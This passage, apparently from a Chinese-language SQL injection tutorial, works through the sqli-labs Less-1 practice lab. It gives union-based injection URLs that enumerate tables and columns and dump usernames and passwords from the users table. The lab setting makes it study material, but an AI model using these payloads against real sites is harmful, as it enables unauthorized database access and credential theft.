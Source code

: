 获取当前数据库下的所有数据表

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

> 其中 `table_name` 中有很多字段，需要用 `group_concat（）` 组合到一起查看

或者将语句整合（推荐）

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

又或者不用 `group_concat` ，使用 `limit` 分次显示

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,(select table_name from information_schema.tables where table_schema=database() limit 0,1) --+
```

得到数据表：emails,referers,uagents,users

### 8.4 爆字段

显示 `users` 数据表中的所有字段

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users') --+
```

### 8.5 拖库

显示 `users` 数据表中的所有数据

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,'_',password) from users) --+
```

> 其中 `_` 为添加的分隔符，可以替换成任意字符

若数据很多可用 `limit` 分次显示

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(username,'--',password) from (select username,password from users limit 0,1)a --+
```

> 此时必须设置临时数据表别名 `a`

也可以使用换行显示多条数据

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(username,0x5F,password,0x3C,0x68,0x72,0x2F,0x3E) from (select username,password from users limit 0,4)a --+
```
